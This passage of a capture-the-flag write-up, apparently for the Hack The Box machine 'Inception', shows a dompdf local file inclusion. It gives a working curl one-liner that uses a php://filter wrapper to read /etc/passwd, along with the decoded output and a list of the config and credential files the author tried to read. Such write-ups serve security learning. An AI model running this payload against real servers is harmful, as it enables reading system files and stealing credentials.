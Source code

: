 ```bash
```
So even if `DOMPDF_CHROOT` is set to any directory, we can access the whole file-system using php wrappers. Also `DOMPDF_ENABLE_REMOTE` is enabled which is required here. 

To get `/etc/passwd`, I used the below command. It fetches the url with `curl`, returns a PDF containing a `base64` encoded string having the file contents, which is then decoded: 
```bash
$ file='/etc/passwd';curl -s http://inception.htb/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=$file | strings -n 50 | awk -F'(' '{print $2}' | awk -F')' '{print $1}'  | base64 -d

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
cobb:x:1000:1000::/home/cobb:/bin/bash
```

I tried for Remote file Inclusion, but that didn't work for me. Also to execute php code on the application, I need the permissions but after fetching the config file `dompdf_config.inc.php`, it shows that php is disabled.
```bash
 * This is a security risk.  Set this option to false if you wish to process
 * untrusted documents.
 */
def("DOMPDF_ENABLE_PHP", false);
```

Tried fetching:
`/var/log/apache2/access.log` - Nothing returned.
`/var/log/apache/access.log` - Nothing returned.
`/proc/self/environ` - Nothing returned.
`/var/www/html/dompdf/dompdf_config.inc.php` - Contains username and password as `user:password`
`/etc/apache2/apache2.conf` - Gave output.
`/etc/apache2/conf-enabled/security.conf` - Gave output.
`/etc/squid/passwd` - Nothing returned.
`/etc/apache2/sites-enabled/000-default.conf` and `/etc/apache2/sites-available/000-default.conf` :
```bash
<VirtualHost *:80>

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
```
